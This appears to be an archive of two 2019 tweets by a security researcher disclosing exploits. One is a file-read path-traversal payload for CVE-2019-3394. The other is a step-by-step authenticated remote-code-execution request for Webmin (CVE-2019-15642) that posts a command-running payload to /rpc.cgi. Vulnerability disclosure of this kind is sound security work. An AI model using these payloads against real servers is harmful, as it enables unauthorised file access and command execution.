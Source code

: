 # chybeta
**https://twitter.com/chybeta/status/1167625745738301440 _at 2019-08-31, 02:30:45_**
<blockquote>
CVE-2019-3394 :  src=\"/packages/../web.xml\" 

full details analysis: @yigeban  https://t.co/8NdIPTD4Nv https://t.co/duOVOIx7Bn
</blockquote>

* https://twitter.com/yigeban/status/1167323740440424450

<table><tr>
<td><img src="pictures/2573afc38810ad2ddfd97fe19728d11533f182241ff0d2133a150406342d20e1.jpg" alt="2573afc38810ad2ddfd97fe19728d11533f182241ff0d2133a150406342d20e1.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>129</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1167617571287289856 _at 2019-08-31, 01:58:16_**
<blockquote>
CVE-2019-15642 another Webmin Remote Code Execution (authenticated)  

1. set User-Agent as webmin  
2. set Authorization 
3. set payload:
OBJECT CGI;print "Content-Type: chybeta\n\n";$cmd=`id`;print "$cmd";
4. post to /rpc.cgi https://t.co/boPYXpLpEv
</blockquote>
